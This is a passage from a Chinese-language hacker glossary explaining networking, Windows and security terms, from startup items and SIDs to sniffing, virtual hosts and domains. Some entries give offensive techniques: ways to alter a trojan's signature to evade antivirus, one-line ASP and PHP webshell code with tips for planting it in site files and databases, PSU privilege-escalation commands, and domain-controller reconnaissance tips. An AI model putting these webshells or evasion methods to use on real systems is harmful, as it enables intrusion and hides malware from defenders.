- 软件更新过程轻松：只需要配置服务器方面就行了。

### 无启动项

无启动项是【木马】与【后门】常用的一种技术，顾名思义，无启动项就是在系统中不添加启动项。其实这只是一个表象，其核心思想是程序启动后自动将启动项删除，当检测到有关机动作后又把启动项加上，这样给管理员造成一种没有启动项的表象，但如果管理员突然将计算机断电就没有办法再次启动了。

### 无组件上传

即不需要已经写好的【脚本】组件来上传文件，而是用脚本自带的一些方法与对象完成整个上传的动作。

### 无线网络

所谓无线网络，就是利用无线电波作为信息传输的媒介构成的无线局域网（WLAN），与有线网络的用途十分类似，最大的不同在于传输媒介的不同。利用无线电技术取代网线，这样可以让上网者更自由地在指定空间内上网。

平常很常见的无线上网主要是靠无线网卡，当然，配套的还需无线路由（无线猫）。无线网卡相当于是接收器，无线路由（无线猫）相当于发射器。这种方式其实还是需要有线的 Internet 线路接入到无线猫上，再将信号转化为无线的信号发射出去，由无线网卡接收。

一般无线路由可以连接 2-4 个无线网卡，工作距离在 50 米以内效果较好，距离影响着通信质量。这种无线方案严格地说只是无线布网，工作环境必须紧挨着有线网络。

另外一种就是纯粹的无线了，这需要通信器材，比如卫星接收器，或可以上网的手机等等。这些东西通过专用的数据线接入电脑，由它们接收来自卫星或无线网络服务的信号，使用户连接上网。这种无线网络速度较慢，通信费用超贵，并且卫星接收器和手机的价格也不菲，优点就是即使你在荒山野岭也能上网。

这两种方案都可以用在笔记本和台式机上，当然，台式机本来移动就不方便，无线就没什么太大的意义了。

### 物理安全

物理安全是指计算机与外界物理接触的安全问题，如窃取硬盘或人为断电等。做好物理安全是保护计算机的第一步。

### 物理地址

即【绝对路径】，详情请见其词条。

### 系统安全标识符

即 SID。用户在使用 Windows 时，会用 administrator 这类的用户名来分别表示不同的用户，而在 NT 平台内部其实是用一个全局唯一的 48 位数值来处理这些对象的，人们把这个代码称为 SID（Security Identifier，安全标识符）。有了 SID，系统就不会把 A 计算机上的 Administrator 与 B 计算机上同名的 Administrator 混为一谈了。

```
S-1-5-21-1527495281-1310999511-3141325392-500
```

SID 由几个数字构成，来看一个例子：S-1-5-21-1527495281-1310999511-3141325392-500。

SID 以 S 开头，各个组成部分用连字符隔开。它的第一个值是版本号，这里为 1；第二个值是 SID 的签发者的主代码，对于 Windows 2003 来说，这里永远为 5。再往后的四组数字就是签发者的子代码，进一步明确这个 SID 签发者是谁；最后一个 500 是 RID，即相对标识符，所有计算机和域的 RID 只有几个，它们的大小和含义是固定不变的。例如 500 代表着本地计算机上的 administrator 用户，501 代表 GUEST。

### 系统服务

即【服务】，详情请见其词条。

### 系统盘符

即操作系统所安装在的盘符。

### 系统权限

系统权限有两种意思，一是指系统本身所设置的权限，二是指权限的一个等级。前者的意思请见【权限】词条，这里重点介绍后者。

Windows 权限分为四种，即客人（guest）、普通用户（user）、管理员（administrator）与系统（system）。系统权限是最高等级的一种，可以完全访问、修改计算机内的任何资源。例如【SAM】文件、注册表的某些【键值】等。

获得系统权限有很多方法，例如可以用 Windows 的任务计划启动 CMD，这样得到的 CMD 就继承了系统的权限，或是使用一个名叫 PSU 的工具来进行【提权】，但前提是必须有管理员权限。

```
PSU 的参数及使用方法：

-p <要运行的文件名>
要写全可执行文件的路径哦，如需带参数，请用 "" 括起来。

-i <要 su 到的进程号>
该选项可选，默认 su 到的进程为 system。

命令执行示例：
psu -p C:\winnt\notepad.exe
psu -p C:\winnt\notepad.exe -i 1234
psu -p "C:\winnt\system32\cmd.exe /K"
```

### 下载者

下载者是一个十分有用的工具，指定参数运行后可以下载指定文件到下载者所在的主机上。这样，当入侵一台主机而因防火墙或其它原因不能够上传其它程序到其主机时，就可以利用下载者下载文件到计算机上并运行。

由于其本身功能简单、体积很小，许多网页【挂马】者就是利用这个特性挂上下载者，当用户运行了下载者后就会自动下载更大的木马并运行。

### 线程

线程是程序中一个单一的顺序控制流程。在单个程序中同时运行多个线程完成不同的工作，称为多线程，也被称为轻量进程（lightweight processes）。

线程是进程中的实体，一个进程可以拥有多个线程，一个线程必须有一个父进程。线程不拥有系统资源，只运行必须的一些数据结构；它与父进程的其它线程共享该进程所拥有的全部资源。线程可以创建和撤销，从而实现程序的并发执行。一般，线程具有就绪、阻塞和运行三种基本状态。

在多中央处理器的系统里，不同线程可以同时在不同的中央处理器上运行，甚至当它们属于同一个进程时也是如此。与进程一样，线程在程序中是独立的、并发的执行路径，每个线程有它自己的堆栈、自己的程序计数器和自己的局部变量。但是，与分隔的进程相比，进程中线程之间的隔离程度要小很多，它们共享内存、文件句柄和其它每个进程应有的状态。

进程可以支持多个线程，它们看似同时执行，但互相之间并不同步。一个进程中的多个线程共享相同的内存地址空间，这就意味着它们可以访问相同的变量和对象，而且它们从同一堆中分配对象。尽管这让线程之间共享信息变得更容易，但您必须小心，确保它们不会妨碍同一进程里的其它线程。

### 小榕

小榕是中国老一辈黑客的代表，也是中国黑客界的骄傲。他开发了许多非常经典的黑客软件，从早期的“溯雪”到名声大震的【流光】，还有“黑客字典”、“SMBRCrack”等一系列工具。其个人网站为：www.netxeyes.com，上面有他的全部作品及自述。

小榕对黑客的道德观认识得很清楚：黑客像美国西部开发时的牛仔，没有法律的约束，但却有自己的做事准则。黑客要有道德底线，小榕的三条做黑客原则：**不能仇视社会，不能给别人制造麻烦，不能给别人带来损失**。有人对黑客这样评价：**黑客是一种不断研究不断探索的境界**。

### 校验和

校验和是计算机技术中重要的验证机制，其主要目的是保证数据的可靠与完整性。校验和的核心思想是将要传输或保存的数据通过指定的【算法】计算后得出一个唯一的数字，当数据传输后再经过指定的算法将其比对，就可以得知数据是否损坏或修改。

下面是 IP 首部校验和计算：为了计算一份数据报的 IP 校验和，首先把校验和字段置为 0。然后，对首部中每个 16 bit 进行二进制反码求和（整个首部看成由一串 16 bit 的字组成），结果存在校验和字段中。当收到一份 IP 数据报后，同样对首部中每个 16 bit 进行二进制反码的求和。由于接收方在计算过程中包含了发送方存在首部中的校验和，因此，如果首部在传输过程中没有发生任何差错，那么接收方计算的结果应该为全 1。如果结果不是全 1（即校验和错误），那么 IP 就丢弃收到的数据报。

### 邪恶八进制信息安全团队

邪恶八进制，即 EST，是 EvilOctal Security Team 的简称，抑或“邪八”。邪恶八进制信息安全团队【EvilOctal Security Team，E.S.T.】是中国民间一个倡导并从事前沿性信息安全技术研究的互联网资讯站点，其性质是公益免费的。

站点采用团队管理模式，为来自五湖四海的信息安全爱好者们能够团结在一起，而造就了一个和谐平静的技术交流平台。我们十分崇尚互联网资源的共享，并且努力追求卓绝的技术与文化交流氛围。

在重视积极推动安全技术与文化发展步入正轨的同时，我们还有意识地开始倾向培养技术研发和运营管理全面发展的复合型团队成员，并立志为推动祖国信息安全事业发展尽团队的一份微薄之力。

- 团队中文志训：倡导中国前瞻性信息安全团队文化，整合专业安全与古典黑客精神，努力为祖国的信息安全撑起一片蓝天。
- 团队英文志训：As We Do, As You Know!（吾之所为，汝之所见。）
- 团队信号信仰：信息安全技术道德化、信息安全区域和平化，做正义的信息安全。
- 团队文化宗旨：培养道德正义的信息安全爱好者，引导社会形成积极的信息安全风气，让信息安全文化成为一种职业信仰。

### 修改特征码

即将木马或后门等其他黑客程序的【特征码】修改，以避免被反病毒软件查杀。修改特征码一般常用以下几种方法：

#### 方法一：直接修改特征码的十六进制

- 修改方法：把特征码所对应的十六进制改成数字差 1 或差不多的十六进制。
- 适用范围：一定要精确定位特征码所对应的十六进制，修改后一定要测试一下能否正常使用。

#### 方法二：修改字符串大小写

- 修改方法：把特征码所对应的字符串内容的大小写互换一下就可以了。例如把字符串“gest”改写“geST”。
- 适用范围：特征码所对应的内容必须是字符串，否则不能成功。

#### 方法三：等价替换法

```
1. 修改方法：把特征码所对应的汇编指令命令替换成功能类似的指令，这里以灰鸽子服务端做演示。
可以把 00412B3F: 0050 78    ADD [DS:EAX+78],DL
修改成 00412B3F: 0050 78    SUB [DS:EAX+78],DL
我们再以加壳的啊D网络工具包进行演示，把
00514AEA    /EB 0E    JMP SHORT DTools.00514AFA
修改成
00514AEA    68 FA4A5100    PUSH DTools1.00514AFA
00514AEF    C3             RETN
2. 适用范围：特征码中必须有可以替换的汇编指令，比如 JN、JNE 换成 JMP 等。
```

#### 方法四：指令顺序调换法

```
以啊D网络工具包进行演示，修改过瑞星的特征码。

1. 修改方法：把具有特征码的代码顺序互换一下
005105EC    0100    ADD DWORD PTR DS:[EAX],EAX
位置互换
005105F0    0000    ADD BYTE PTR DS:[EAX],AL
2. 适用范围：具有一定的局限性，代码互换后要不能影响程序的正常执行。
```

#### 方法五：通用跳转法

```
以啊D网络工具包过瑞星进行特征码修改。

1. 修改方法：把特征码移到零区域（指代码的空闲处），然后一个 JMP 又跳回来执行。
特征码所在内存地址：
005105EE    34 01    XOR AL,1
005105F0    下一位的地址
0051069F    （空白区域）
跳转零区域
在零区域汇编原特征码然后跳到原特征码的下一个地址。
2. 适用范围：没有什么条件，是通用的改法，强烈建议大家要掌握这种改法。
```

#### 方法六：字符替换法

- 修改方法：把具有中文字符的特征码用等字节的其它替换，也就是用相同字节的其他内容替换掉特征内容，必须保证字节数相等。
- 适用范围：有中文字符串的特征码都可以用此方法，效果理想。

### 虚拟光驱

虚拟光驱是利用软件将光盘镜像模拟成光驱的一种技术，利用它可以虚拟出和你电脑上所安装的物理光驱功能一模一样的光驱。一般光驱能做的事，虚拟光驱都可以做到，它的工作原理是先虚拟出一部或多部虚拟光驱，然后读取光盘镜像文件，使得不需要实体光盘就可以运行“光盘”。

虚拟光驱有很多一般物理光驱无法达到的功能，例如运行时不用实体光盘，即使没有物理光驱也可以使用已经做成镜像文件的“光盘”。而且还可以同时执行多张“光盘”，拥有快速的处理能力、容易携带等特点。一般常用的许多软件都可以实现这种功能，比如 Nero 刻录软件自带的虚拟光驱工具或者专业的 UltraISO，如图 X-2。

### 虚拟机

虚拟机是工作在操作系统之上的软件，用它可以实现在运行一个操作系统的时候分配系统资源，建立一个虚拟的操作系统运行环境，使其具备在一个平台上再运行一个或多个操作系统的能力。不仅如此，虚拟机还可以虚拟网络设备，例如交换机等；用这些虚拟的网络设备可以组建成各种网络拓扑结构的网络。不过，你要保证自己的机器有足够的能力运行这些虚拟机。

虚拟机用途十分广泛，新手可以用它来练习安装各种软件，甚至是格式化系统等危险操作；系统 DIY 爱好者可以用来测试软件镜像；网络安全爱好者可以使用它组成复杂的网络进行入侵演练；程序员可以利用它测试程序在不同操作系统或不同版本中的兼容性。典型的虚拟机软件有 VMWare。

## HACK TIPS:

对于学习黑客技术的朋友来说，虚拟机是一个绝佳的实验场地，它不仅可以虚拟出一台计算机出来，甚至还可以虚拟出你想要的网络环境，这样许多条件苛刻的攻击方法都可以在上面进行实验。

## 4.1 虚拟目录

虚拟目录是 Web 技术中的重要概念，提供 Web 服务的软件（如 IIS 或 Tomcat）都可以设置虚拟目录。一般来说，Web 服务器上不会只有一个网站（这样提供虚拟主机的服务商肯定不划算），一个网站也不会只有一个目录，虚拟目录就是一个网站在 Web 服务软件中的目录。如图 X-3，是在 IIS 中新建一个虚拟目录。

对于虚拟空间提供商来说，一个网站可拥有一个宿主目录和任意数量的其它发布目录，其它发布目录称为虚拟目录。

# 黑客词典

例如一个网址为 www.cody.com 的网站，下面有两个虚拟目录 nohack 与 eviloctal，则访问这两个虚拟目录时只需要输入 URL：http://www.cody.com/nohack/ 与 http://www.cody.com/eviloctal/ 就可以了。

#### HACK TIPS

对于虚拟空间提供商来说，如果虚拟目录的权限设置不当，就很可能给整个主机带来极大的威胁。一些恶意的用户会利用各种各样的 WebShell 对虚拟主机进行操作，甚至可以得到整个服务器的控制权。常见的办法是建立一个隶属于 USER 组的用户，只给此用户访问那个虚拟目录权限，其余一律拒绝。再在 IIS 里将这个虚拟目录的匿名访问账号设置为这个用户，如图 X-4。这样，即使上传了 WebShell，也无法访问其他的文件夹与盘符了。


图 X-4

## 虚拟文件系统 操作系统及其相关

虚拟文件系统，即 VFS（Virtual File Systems）。VFS 是由 Sun Microsystems 公司在定义网络文件系统（NFS）时创造的，它是一种用于网络环境的分布式文件系统，是允许操作系统使用不同的文件系统实现的接口。

VFS 是物理文件系统与服务之间的一个接口层，它对 Linux 的每个文件系统的所有细节进行抽象，使得不同的文件系统在 Linux 核心以及系统中运行的其他进程看来，都是相同的。严格说来，VFS 并不是一种实际的文件系统，它只存在于内存中，不存在于任何外存空间。VFS 在系统启动时建立，在系统关闭时消亡。

VFS 使 Linux 同时安装、支持许多不同类型的文件系统成为可能。VFS 拥有关于各种特殊文件系统的公共界面，如超级块、inode、文件操作函数入口等。实际文件系统的细节，统一由 VFS 的公共界面来索引，它们对系统核心和用户进程来说是透明的。

VFS 的功能包括：记录可用的文件系统的类型；将设备同对应的文件系统联系起来；处理一些面向文件的通用操作；涉及到针对文件系统的操作时，VFS 把它们映射到与控制文件、目录以及 inode 相关的物理文件系统。

## 虚拟主机 黑客技术基础

虚拟主机，也叫“网站空间”，就是把一台运行在互联网上的服务器划分成多个“虚拟”的服务器，每一个虚拟主机都具有独立的域名和完整的 Internet 服务器（支持 WWW、FTP、E-mail 等）功能。

一台服务器上的不同虚拟主机是各自独立的，并由用户自行管理。但一台服务器主机只能够支持一定数量的虚拟主机，当超过这个数量时，用户将会感到性能急剧下降。

虚拟主机技术的出现，是对 Internet 技术的重大贡献，是广大 Internet 用户的福音。由于多台虚拟主机共享一台真实主机的资源，每个用户承受的硬件费用、网络维护费用、通信线路的费用均大幅度降低，使得人人都有了低成本创办网站与发布信息的权利。

虚拟主机技术是互联网服务器采用的节省服务器硬件成本的技术，虚拟主机技术主要应用于 HTTP 服务，将一台服务器的某项或者全部服务内容逻辑划分为多个服务单位，对外表现为多个服务器，从而充分利用服务器硬件资源。如果划分是系统级别的，则称为虚拟服务器。

通过 Ctrl+[F1-F4] 进行快速的桌面切换，也可以点击任务栏的图标进行桌面的快速切换；非常方便。

## 序列号 特定名称

一般商业软件为了验证用户的合法身份，都需要输入一串字符来验证，这串字符就叫序列号。

## 嗅探 攻击方法与行为

嗅探（SNIFF）是一个获取网络上传输数据的古老方法。它是一把双刃剑：既可以帮助网络管理员分析网络情况，也可以让入侵者轻易地得到他想得到的数据。

当你舒适地坐在家里，惬意地享受网络给你带来的便利，收取你的 E-mail，购买你喜欢的物品时，你是否会想到，你的朋友给你的信件、你的信用卡账号，变成了一个又一个的信息包在网络上不停地传送着……你是否想到过，这些信息包会通过网络流入别人的机器呢？你的担忧不是没有道理的，因为 SNIFF 可以让你的担忧变成实实在在的危险，就好像有一个人会躲在你的身后偷看你一样。

在由一个 HUB 组成的以太网中，所有的数据包都是广播的！也就是说，通常在同一个网段的所有网络接口都可以访问在物理媒体上传输的所有数据，而每一个网络接口都有一个唯一的硬件地址，这个硬件地址也就是网卡的 MAC 地址。

大多数系统使用 48 比特的地址，这个地址用来表示网络中的每一个设备。一般来说，每一块网卡上的 MAC 地址都是不同的。每个网卡厂家得到一段地址，然后用这段地址分配给其生产的每个网卡一个地址。在硬件地址和 IP 地址间，使用 ARP 和 RARP 协议进行相互转换。

在正常的情况下，一个网络接口应该只响应这样的两种数据帧：

- 与自己硬件地址相匹配的数据帧；
- 发向所有机器的广播数据帧。

在一个实际的系统中，数据的收发是由网卡来完成的。网卡接收到传输来的数据，其单片程序接收数据帧的目的 MAC 地址，根据计算机上的网卡驱动程序设置的接收模式判断该不该接收。认为该接收就接收后产生中断信号通知 CPU，认为不该接收就丢掉不管。

所以，不该接收的数据网卡就截断了，计算机根本就不知道。CPU 得到中断信号产生中断，操作系统就根据网卡驱动程序设置的网卡中断程序地址调用驱动程序接收数据，驱动程序接收数据后放入信号堆栈让操作系统处理。

而对于网卡来说，一般有四种接收模式：

- 广播方式：该模式下的网卡能够接收网络中的广播信息；
- 组播方式：设置在该模式下的网卡能够接收组播数据；
- 直接方式：在这种模式下，只有目的网卡才能接收该数据；
- 混杂模式：在这种模式下的网卡能够接收一切通过它的数据，而不管该数据是否是传给它的。

刚刚已经提到，在以太网中，所有的物理信号都要经过我的机器。再者，网卡可以设置一种模式叫混杂模式（promiscuous），在这种模式下工作的网卡能够接收到一切通过它的数据，而不管数据的目的地址是不是它。这实际上就是我们 SNIFF 工作的基本原理：让网卡接收一切它所能接收的数据。

当把一个网卡激活为混杂模式时，它就会接受所有发送给它的数据包，不管其 MAC 地址是不是这张网卡的，这样就可以嗅探出局域网内的全部数据（当然，前提是此局域网是由 HUB 组成的）。但如果将 HUB 换成交换机或路由器，这样的嗅探就不能成功了（这个跟交换机的特性有关，详见其词条），这时就要用到 ARP 欺骗才能嗅探到数据了。

# 黑客词典

## 嗅探器 黑客工具

嗅探器就是嗅探的利用程序。在早期，当一个网络出现故障时，需要由网络管理员查找故障原因并及时修复。但局域网一般都由几十台到几百台计算机，以及多台服务器、交换机、路由器等设备组成，一旦出现故障，管理员需要全面检查这些设备是否正常运行、各个端口的连接是否正常，检查故障是否是黑客或木马所为，工作量十分巨大，同时排除故障也非常麻烦。这个时候就要借助嗅探器了，当然，入侵者也可以利用嗅探器获取自己想要的数据。常见的嗅探器有 Sniffer Pro、IRIS 等。

## 雪人论坛 脚本

雪人论坛是由国内著名程序员王炳坤在大学期间开发的一款 ASP 论坛，现已停止升级。

## 迅雷 应用程序

迅雷是近几年新出现并流行起来的下载工具，也可以说是一种新兴的下载技术，下面是它官方的介绍：

> 迅雷使用的多资源超线程技术基于网格原理，能够将网络上存在的服务器和计算机资源进行有效的整合，构成独特的迅雷网络。通过迅雷网络，各种数据文件能够以最快速度进行传递。多资源超线程技术还具有互联网下载负载均衡功能，可以在不降低用户体验的前提下，对服务器资源进行均衡，有效降低了服务器负载。

#### HACK TIPS

虽然上面所说的似乎非常玄乎，但迅雷其实是将搜索引擎技术与盗链技术结合起来的组合应用。当用户下载一个资源的时候，迅雷会迅速地寻找其他网站上是否有相同的资源并下载，这样就可以同时从多个站点同时下载一个文件，自然大大地增加了下载的速度。正因为这样，会占用许多网站的流量，使其访问量与流量不成正比，让网站管理者颇为头疼。

## 压缩包 特定名称

即把多个文件通过压缩软件压缩成一个文件，当使用时再利用这种压缩软件进行解压。目前，大家最常用的压缩软件是 WinRAR。

## 压缩壳 加密解密

当把文件（如 exe、dll 等）压缩后，会在文件开头一部分加上一段解压代码，这一部分代码就是压缩壳。执行该文件时，该代码先被执行，它负责解压并还原文件，不过这些都是在内存中完成的，由于计算机反应速度快，我们基本感觉不出有什么不同。

## 页面劫持 攻击方法与行为

页面劫持是将指定的网页修改或强行替换的行为。这个过程可以是一些流氓软件所为，而有时甚至是电信运营商！他们的目的都基本相同，就是想利用页面劫持来达到宣传自身或散播广告。

### 一句话木马

### 渗透技术

一句话木马是只有一句话的 WebShell，各种语言都有相应的一句话木马，这里只讲一下最流行的 ASP 一句话木马。

```
ASP 的一句话有两种：一种是利用 Execute 函数，即在 ASP 文件中写入 `Execute Request("#")`，因为 Execute 是专门用来执行 ASP 代码的，这样这个 ASP 文件就变成了一个可以执行任意 ASP 语句的程序。不过还有另一个函数 eval，它也能达到同样的效果，即 `eval request("#")`。
```

同 Execute 相比，eval 有个好处就是当参数为空时不会出错，所以这是更小的一句话木马。

```
除了 ASP 外，各种语言都有相应的一句话木马，如 PHP 的为：`<?require($a);?>`
```

#### HACK TIPS

一句话木马的优点在于体积小、隐藏性高、杀毒软件不能查杀，而且所有提交的数据都是 POST 方式，IIS 日志不会记录；缺点是每次执行代码都会有大量数据传送，而且代码通过 Execute 执行速度会慢些。

因为只要将这样的代码插入到任意的 ASP 文件中，就可以让此文件成为一个执行任意 ASP 语句的程序，所以在入侵时，有一个常用的办法就是想方设法将一句话木马的代码插入到正常的 ASP 文件中去。

例如，如果有的站的数据库是 ASP 后缀的，则可以直接在一些地方写入一句话木马代码，这样数据库就变成了一个 WebShell。

另外，对于 MSSQL，在进行 LOG 备份或差异备份时，因为一句话木马的短小，所以很容易插入数据库中并导出，成功率比较高。

### 以太网

### 黑客技术基础

以太网指的是由 Xerox 公司创建并和 Intel、DEC 公司联合开发的基带局域网规范。以太网络使用 CSMA/CD（载波监听多路访问及冲突检测技术）技术，并以 10M/S 的速率运行在多种类型的电缆上。以太网与 IEEE 802.3 系列标准相类似，它不是一种具体的网络，是一种技术规范。

以太网是当今现有局域网采用的最通用的通信协议标准，该标准定义了在局域网（LAN）中采用的电缆类型和信号处理方法。以太网由于其低成本、高可靠性以及 10Mbps 的高速率而成为应用最为广泛的以太网技术。直扩的无线以太网可达 11Mbps，许多制造供应商提供的产品都能采用通用的软件协议进行通信，开放性最好。

## 溢出攻击

### 攻击方法与行为

即缓冲区溢出，详情请见其词条。

## 引导扇区

### 硬件

硬盘的每个分区都有引导扇区。引导扇区告诉计算机本分区的分区结构、大小、文件系统类型和地址索引；其中活动分区的引导扇区又叫主引导区（包括主引导记录 MBR 和硬盘分区表 DPT），它告诉计算机本硬盘分几个区、各个区的大小、结构和文件系统类型。

这其中，硬盘主引导扇区又是一个最敏感的区域，它的安全与否直接决定硬盘是否能够正常使用。深入认识和灵活使用硬盘主引导扇区将有助于你的系统维护和许多特殊工作的操作。

## 隐藏账户 渗透技术

隐藏账户指通过常规手段无法发现并删除的账户，也叫克隆管理员，详情请见其词条。

## 影子系统 应用程序，安全技术

影子系统（PowerShadow）是一个十分有用的软件，它是在用户现有操作系统的基础上构建一个虚拟的镜像，即影子模式（shadow mode）。

影子模式和用户现有使用的真实系统完全一样，有着相同的架构和功能，用户可随时选择启用或者退出这个虚拟镜像。用户进入影子模式（shadow mode）后，所有操作都是虚拟的，可以任意摧残系统，而不会对现有真正的系统产生影响，一切改变将在退出 Shadow 模式后消失。因此所有的病毒、木马程序、流氓软件都无法侵害真正的操作系统，它们的所有操作都只是“影子”中的假象。

下面详细讲解一下实际的操作：

- 1、程序安装

首先从影子系统的官方网站（http://www.powershadow.com/cn/）进行程序的下载，目前影子系统只有英文版和繁体中文版，不过据官网介绍，简体版本近期将会推出，所以我们暂时就通过英文版和汉化补丁的组合来进行安装。

首先运行英文版的安装程序，安装完成后程序会提示用户重新启动系统，这里我们选择“不重新启动”这一项。接着将汉化补丁文件覆盖到目录 C:\WINDOWS\system32\shadow\ 即可。

- 2、启动方式

由于影子系统在安装时修改了系统的 boot.ini 配置文件，所以重新启动系统后，电脑会出现类似安装了双系统一样的启动项，可以实现用户在开机时选择“正常模式”或“影子模式”。如果选择 PowerShadow Master 的启动项（各版本所显示的菜单项可能有所不同），就会进入影子模式，如图 Y-1。


#### 小提示

如果用户不想在启动时出现这个多系统菜单，可以在进入正常模式后，点击软件界面左边的“启动菜单”标签，选中右面的“显示 PowerShadow 启动菜单”，再点击“确定”按钮就可以了。如果想恢复这个多系统菜单，只要在这里选择“上述二者全部显示”就可以了，如图 Y-2。


如果用户选择进入正常模式的话，也可以双击打开桌面上的“PowerShadow Master”图标（各版本可能显示的文字及图标有所不同）来启动软件。接着点击操作界面左边的“常规”标签，如图 Y-3。


从图 Y-3 中我们可以看到，软件有两种保护模式，即系统盘保护模式和全盘保护模式。在系统盘保护模式下，一切对系统的更改在下次启动后全部无效，对非系统分区的更改是有效的。用户如果要保存数据，可以将数据保存到除系统盘以外的其他盘上；在全盘保护模式下，这会对电脑中的所有分区进行保护。

如果是测试软件，那就选择第二个全盘保护模式。用户如果要保存数据，必须将数据保存到其他外部设备上，例如 U 盘、MP3、MP4 或移动硬盘。

选好后点击“启动”按钮，这时屏幕上会出现短暂的水波纹现象，稍等一会就进入了全盘保护模式，从桌面上的提示也可以证明这一点。如果想退出这个系统，只要重新启动一下电脑即可。

- 3、程序测试

现在我们就利用影子系统的影子模式，通过实践来证明一下软件的可靠性。

- （1）修改系统配置

很多用户都喜欢对系统进行一些 DIY 设置，从而让系统使用起来变得更加方便顺手。可是这些操作往往都需要在注册表或其他系统的危险位置来设置，以至于很多计算机初学者不敢“轻举妄动”。

我试着在注册表中对系统的共享进行关闭设置，当我恢复到正常模式后，发现已经“关闭”的共享依然如初。以后就可以利用这个影子系统来模拟系统优化、修改注册表等系统相关的操作，这样就算系统出现崩溃，也只要重新启动一下电脑就可以了。


- （2）安装流氓软件

现在网上的流氓软件泛滥成灾，这里我就利用雅虎助手、搜狗工具条、百度搜霸等软件来进一步对影子系统进行测试。当我们在影子模式下安装了这些流氓软件后，如图 Y-4，可以看到 IE 浏览器已经变得“满目疮痍”；当我们回到实际的操作系统中时，IE 浏览器又“焕然一新”了。


- （3）木马程序测试

病毒、木马是现在危害用户的主要因素之一，所以为了验证影子系统的安全性，我这里使用灰鸽子木马来进行测试。

在影子系统中运行灰鸽子的服务端程序，通过 IceSword 检测到灰鸽子的存在，如图 Y-5。当我返回正常状态后，发现灰鸽子已经消失得无影无踪了。

- （4）进行“裸奔”上网

“裸奔”上网是广大网友的一大梦想，但是网络中充斥的病毒、后门、流氓软件、黑客等却让他们不得不安装上杀毒软件和防火墙，因为只有这样才能保证个人隐私的安全、系统稳定地运行。笔者通过半天使用影子系统进行“裸奔”上网，结果发现返回正常状态后原系统依旧完好。

通过上面这些测试，我发现影子系统的安全性的确相当强！任何想要损害系统安全的操作都是无用的，唯一的方法就是让系统从影子模式返回到启动模式才行，因为在应用层上任何程序都无法对影子模式保护的文件进行攻击。

影子系统既不会占用大量的磁盘空间和系统资源，也不会给用户造成系统设置、安装软件等麻烦，更关键的是任何人都可以在程序安装好以后立即进行使用。所以对于一般的家庭用户和入门级用户来说，影子系统还是有很大优势的。

当然，凡事都是相对的，虽然影子系统在某些方面相比 GHOST、虚拟机等有很大的优势，但是并非就表示影子系统就是“全能冠军”。而且 GHOST、虚拟机等在某些方面的强大功能，也显示出影子系统的不足。

前面我们已经说过了，影子系统是在用户现有操作系统的基础上构建一个虚拟的影像，只有在一个稳固的系统上构建起的影子系统，才能稳定地运行。换句话说，如果原有的系统已经濒临“崩溃”的话，那么构建的影子系统也是非常脆弱的。而要想获得一个全新稳定的系统，只有 GHOST 才能帮我们办到，影子系统是无法做到的。

对于虚拟机来说，影子系统也不是十全十美的。首先如果用户的硬件配置够强的话，虚拟机可以虚拟出多个不同的操作系统，比如 Windows、Linux 等；其次使用虚拟机可以在本地当前的系统和虚拟的系统之间来回切换；还有就是可以使用虚拟机和本地的系统构建成一个虚拟的网络。

除了以上这些不足之处以外，影子系统还有一些不顺手的地方。比如进入影子系统后，任何东西都不能进行保存，刚刚下载的程序、处理过的文档等都将不复存在。而且影子系统不能进行延续，重启后刚才设置的内容，以及使用过的数据都不复存在，又将出现一个全新的“影子”，这可真的是半途而“废”啊。

## 硬件防火墙——安全技术

硬件防火墙是指把防火墙程序直接刷进芯片里面，由硬件执行直接实现所有防火墙的功能。硬件防火墙是保障内部网络安全的一道重要屏障，它的安全和稳定，直接关系到整个内部网络的安全。因此，日常例行的检查对于保证硬件防火墙的安全是非常重要的。硬件防火墙一般适合于大型企业及安全性要求较高的机构，其反应速度快，处理能力强，对底层协议的攻击防御效果明显。其缺点是价格昂贵，不容易更新，对高层特别是应用层的攻击很难防御。

## 域——黑客技术基础

域是 Windows 系统组成的网络中的重要概念，也是 Windows 系统组成的网络的精华所在。以下是微软官方的解释：

> 域既是 Windows 网络操作系统的逻辑组织单元，也是 Internet 的逻辑组织单元。在 Windows 网络操作系统中，域是安全边界。域管理员只能管理域的内部，除非其他的域显式地赋予他管理权限，他才能够访问或者管理其他的域。每个域都有自己的安全策略，以及它与其他域的安全信任关系。

其实我们可以把域和工作组联系起来理解。在工作组上，你一切的设置是在本机上进行，包括各种策略、用户登录（密码是放在本机的数据库来验证的）等；而如果你的计算机加入域的话，各种策略是由域控制器统一设定，用户名和密码也是放到域控制器去验证。也就是说，你的账号密码可以在同一域的任何一台计算机登录。

**域的真正含义指的是服务器控制网络上的计算机能否加入的计算机组合。**一提到组合，势必需要严格的控制，所以实行严格的管理对网络安全是非常必要的。在对等网模式下，任何一台电脑只要接入网络，其他机器就都可以访问共享资源，如共享上网等。

### 域服务器（黑客技术基础）

域服务器又叫域控制器（Domain Controller，简写为 DC）。在域模式下，至少有一台服务器负责每一台联入网络的电脑和用户的验证工作，相当于一个单位的门卫一样。

域控制器中包含了由这个域的账户、密码、属于这个域的计算机等信息构成的数据库。**当电脑联入网络时，域控制器首先要鉴别这台电脑是否属于这个域，用户使用的登录账号是否存在、密码是否正确。**如果以上信息有一样不正确，那么域控制器就会拒绝这个用户从这台电脑登录。

无法登录，用户就不能访问服务器上有权限保护的资源，也只能以对等网用户的方式访问 Windows 共享出来的资源，这样就在一定程度上保护了网络上的资源。

#### HACK TIPS

由上面可知，域服务器是一个域中最重要的部分，一旦出现安全问题，后果将十分严重。当我们进行渗透攻击时，如果对方的网络存在域，那首先就要确定域服务器的 IP。一般的方法是扫描 53 端口，因为只有域服务器才会开放这个端口，并用这个端口对域里的主机提供各种服务。在确定服务器后，可以利用 ldap 这个工具来获取域服务器上的用户名。

### 域名（黑客技术基础）

域名即人们所俗称的“网址”，它是为了解决 IP 地址不方便记忆而出现的。计算机网络是基于 TCP/IP 协议进行通信和连接的，每一台主机都有一个唯一的、固定的 IP 地址，以区别在网络上成千上万个用户和计算机。网络在区分所有与之相连的网络和主机时，均采用了一种唯一、通用的地址格式，即每一个与网络相联结的网络和主机都被指派了一个独一无二的地址。

为了保证网络上每台计算机 IP 地址的唯一性，用户必须向特定机构申请注册，该机构根据用户单位的网络规模和近期发展计划，分配 IP 地址。

**网络中的地址方案分为两套：IP 地址系统和域名地址系统，**这两套地址系统其实是一一对应的关系。由于 IP 地址是数字标识，使用时难以记忆和书写，因此在 IP 地址的基础上又发展出一种符号化的地址方案，用来代替数字型的 IP 地址。每一个符号化的地址都与特定的 IP 地址对应，这样网络上的资源访问起来就容易得多了。这个与网络上的数字型 IP 地址相对应的字符型地址，就被称为域名。

